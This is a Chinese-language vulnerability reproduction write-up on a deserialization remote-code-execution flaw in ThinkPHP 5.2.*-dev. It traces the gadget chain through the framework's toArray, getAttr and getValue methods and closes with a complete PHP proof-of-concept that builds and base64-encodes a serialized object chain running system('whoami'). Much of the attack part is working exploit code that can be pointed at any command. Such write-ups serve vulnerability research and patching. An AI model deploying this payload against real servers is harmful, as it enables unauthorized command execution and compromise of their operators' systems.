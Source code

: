 Thinkphp 5.2.\*-dev 反序列化漏洞
================================

一、漏洞简介
------------

所有Thinkphp版本下载链接

<https://packagist.org/packages/topthink/framework>

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

    composer create-project topthink/think=5.2.*-dev v5.2

### poc演示截图

![](./resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId27.png)

### 调用链

![](./resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId29.png)

### 单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到\$data可控

    public function toArray(): array
    {
    。。。
    $data = array_merge($this->data, $this->relation);

    foreach ($data as $key => $val) {
       if ($val instanceof Model || $val instanceof ModelCollection) {
         // 关联模型对象
         if (isset($this->visible[$key])) {
          $val->visible($this->visible[$key]);
         } elseif (isset($this->hidden[$key])) {
          $val->hidden($this->hidden[$key]);
         }
         // 关联模型对象
         $item[$key] = $val->toArray();
       } elseif (isset($this->visible[$key])) {
         $item[$key] = $this->getAttr($key);
       } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
         $item[$key] = $this->getAttr($key);
       }
    }
    。。。
    public function getAttr(string $name)
    {
        try {
            $relation = false;
            $value    = $this->getData($name);
        } catch (InvalidArgumentException $e) {
            $relation = true;
            $value    = null;
        }

        return $this->getValue($name, $value, $relation);
    }
    public function getData(string $name = null)
       {
           if (is_null($name)) {
               return $this->data;
           }

           $fieldName = $this->getRealFieldName($name);

           if (array_key_exists($fieldName, $this->data)) {
               return $this->data[$fieldName];
               ...
           }
       }
    protected function getRealFieldName(string $name): string
    {
        return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
    }

可以看到getAttr函数中的\$value可控，那么导致\$this-\>getValue(\$name,
\$value, \$relation);这里的三个参数都可控，跟进\$this-\>getValue(\$name,
\$value, \$relation);

    protected function getValue(string $name, $value, bool $relation = false)
    {
        // 检测属性获取器
        $fieldName = $this->getRealFieldName($name);
        $method    = 'get' . App::parseName($name, 1) . 'Attr';

        if (isset($this->withAttr[$fieldName])) {
           if ($relation) {
             $value = $this->getRelationValue($name);
           }

           $closure = $this->withAttr[$fieldName];
           $value   = $closure($value, $this->data);

这里\$fieldName、\$this-\>withAttr，导致\$closure也可控，最终直接产生RCE。如下图

![](./resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId31.png)

补充：

    <?php

    $a = array();
    system('whoami',$a);

![](./resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId32.png)

![](./resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId33.png)

### poc v5.2.\*-dev

    <?php
    namespace think\process\pipes {
        class Windows
        {
            private $files;
            public function __construct($files)
            {
                $this->files = array($files);
            }
        }
    }

    namespace think\model\concern {
        trait Conversion
        {
            protected $append = array("Smi1e" => "1");
        }

        trait Attribute
        {
            private $data;
            private $withAttr = array("Smi1e" => "system");

            public function get($system)
            {
                $this->data = array("Smi1e" => "$system");
            }
        }
    }
    namespace think {
        abstract class Model
        {
            use model\concern\Attribute;
            use model\concern\Conversion;
        }
    }

    namespace think\model{
        use think\Model;
        class Pivot extends Model
        {
            public function __construct($system)
            {
                $this->get($system);
            }
        }
    }
    namespace{
        $Conver = new think\model\Pivot("whoami");
        $payload = new think\process\pipes\Windows($Conver);
        echo base64_encode(serialize($payload));
    }
    ?>

四、参考链接
------------

> <https://www.t00ls.net/thread-54324-1-1.html>
